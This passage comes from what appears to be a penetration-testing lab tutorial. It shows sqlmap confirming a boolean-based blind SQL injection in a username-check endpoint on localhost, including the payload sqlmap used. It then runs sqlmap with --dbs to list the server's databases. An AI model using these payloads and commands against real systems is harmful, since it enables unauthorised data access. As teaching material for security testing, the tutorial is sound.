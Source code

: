 ```powershell
---
Parameter: u (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: u=maria' AND 8717=8717 AND 'tkQZ'='tkQZ

<SNIP>

```

After a little while, `SQLMap` will print out that it successfully identified a `boolean-based SQLi` vulnerability and give us the `payload` it used. With a confirmed injection point, we can move on to listing all the databases by adding the `--dbs` flag.

```powershell
PS C:\htb> python .\sqlmap.py -u http://localhost/api/check-username.php?u=maria -batch --dbs

<SNIP>
[17:55:23] [INFO] fetching database names
[17:55:23] [INFO] fetching number of databases
[17:55:23] [INFO] resumed: 6
[17:55:23] [INFO] resumed: amdonuts
[17:55:23] [INFO] resumed: master
[17:55:23] [INFO] resumed: model
[17:55:23] [INFO] resumed: msdb
[17:55:23] [INFO] resumed: tempdb
[17:55:23] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[17:55:23] [INFO] retrieved:
[17:55:23] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
[17:55:23] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions

[17:55:23] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
available databases [5]:
[*] amdonuts
[*] master
[*] model
[*] msdb
[*] tempdb

[17:55:23] [INFO] fetched data logged to text files under 'C:\Users\bill\AppData\Local\sqlmap\output\localhost'

[*] ending @ 17:55:23 /2022-12-12/

```

In the output above we can see that there are five databases on the server. Out of them all, `amdonuts` is the most interesting one to us. We can select this database and list the tables with the following command.
